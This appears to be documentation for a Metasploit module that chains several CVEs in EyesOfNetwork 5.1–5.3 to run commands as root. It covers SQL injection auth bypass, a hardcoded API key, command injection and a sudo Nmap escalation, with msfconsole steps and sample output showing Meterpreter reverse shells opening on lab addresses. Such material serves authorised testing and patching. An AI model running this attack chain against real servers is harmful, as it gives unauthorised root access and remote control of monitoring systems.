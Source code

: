 ## Vulnerable Application
This module exploits multiple vulnerabilities in EyesOfNetwork version 5.1, 5.2 and 5.3 in order to execute arbitrary
commands as root.

The module first runs a few checks to verify the EyesOfNetwork version. If version 5.1 or 5.2 is detected, it attempts
an authentication bypass via an SQL injection in the `user_id` field in a cookie (CVE-2020-9465). If version 5.3 is
detected, the module exploits a hardcoded admin API key in EyesOfNetwork API version 2.4.2 (CVE-2020-8657) in order to
generate a valid access token and uses it to create a new user with admin privileges. If the generated key is not valid,
the admin API key is obtained via an SQL injection vulnerability affecting the same API version (CVE-2020-8656). If this
doesn't work either, it attempts CVE-2020-9465, which is the slowest and most noisy exploit of the three.

For all vulnerable versions, the next step after bypassing authentication is to abuse a command injection vulnerability
in the `target` parameter of the AutoDiscovery functionality within the EON web interface (CVE-2020-8654). Specifically,
the module writes an Nmap NSE script containing the payload to disk, and then activates this script by launching an Nmap
host discovery scan against the target. This achieves privilege escalation because the default sudo configuration
permits the 'apache' user to execute Nmap as root (CVE-2020-8655).

The module only works with HTTPS, so SSL is enabled by default. Valid credentials for a user with administrative
privileges are required. However, as explained above, the module can bypass authentication via various methods,
depending on the EON version. This module has been successfully tested on EyesOfNetwork 5.1, 5.2 and 5.3.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/eyesofnetwork_autodiscovery_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set payload [payload]`
6. Do: `set LHOST [IP]`
7. Do: `exploit`

## Options

### SERVER_ADDR
This option should be set for EON version 5.3 in case the EyesOfNetwork server IP address is different from `RHOST`.
This because the EON server IP is needed to generate the API key.

### SQLI_SLEEP
The sleep value to be used when attempting to exploit CVE-2020-9465, which uses sleep-based SQL injection. The default
value is 1.

## Scenarios
1. EyesOfNetwork version 5.1

```
msf exploit(linux/http/eyesofnetwork_autodiscovery_rce) > show options

Module options (exploit/linux/http/eyesofnetwork_autodiscovery_rce):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.1.1      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        443              yes       The target port (TCP)
   SERVER_ADDR                   yes       EyesOfNetwork server IP address (if different from RHOST)
   SRVHOST      0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      8080             yes       The local port to listen on.
   SSL          true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI    /                yes       Base path to EyesOfNetwork
   URIPATH                       no        The URI to use for this exploit (default is random)
   VHOST                         no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Target is EyesOfNetwork version 5.1. Attempting exploitation using CVE-2020-9465.
[+] The target seems vulnerable.
[*] Verified that the admin user has at least one active session.
[*] Found the admin 'session_id' size: 31
[*] Calculating the admin 'session_id' value. This will take a while...
[+] Obtained admin 'session_id' value: 1856115646
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.1
[*] Meterpreter session 1 opened (192.168.91.2:4444 -> 192.168.1.1:55744) at 2020-05-19 08:48:37 -0400
```

2. EyesOfNetwork version 5.2

```
msf exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Target is EyesOfNetwork version 5.2. Attempting exploitation using CVE-2020-9465.
[+] The target seems vulnerable.
[*] Verified that the admin user has at least one active session.
[*] Found the admin 'session_id' size: 31
[*] Calculating the admin 'session_id' value. This will take a while...
[+] Obtained admin 'session_id' value: 1445224287
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.3
[*] Meterpreter session 2 opened (192.168.1.2:4444 -> 192.168.1.3:38070) at 2020-05-19 08:49:46 -0400
```

3. EyesOfNetwork version 5.3

```
msf exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Target is EyesOfNetwork version 5.3 or later. Attempting exploitation using CVE-2020-8657 or CVE-2020-8656.
[*] Using generated API key: a926605f4e617fd68bbb86112156b41ea2406503859dad58b0d0aefcc848b755
[+] Authenticated as user r6veXwtZ2zh
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.4
[*] Meterpreter session 3 opened (192.168.1.2:4444 -> 192.168.1.4:60244) at 2020-05-19 08:50:04 -0400
```

## References
1. <https://www.exploit-db.com/exploits/48025>
2. <https://nvd.nist.gov/vuln/detail/CVE-2020-8654>
3. <https://nvd.nist.gov/vuln/detail/CVE-2020-8655>
4. <https://nvd.nist.gov/vuln/detail/CVE-2020-8656>
5. <https://nvd.nist.gov/vuln/detail/CVE-2020-8657>
6. <https://nvd.nist.gov/vuln/detail/CVE-2020-9465>
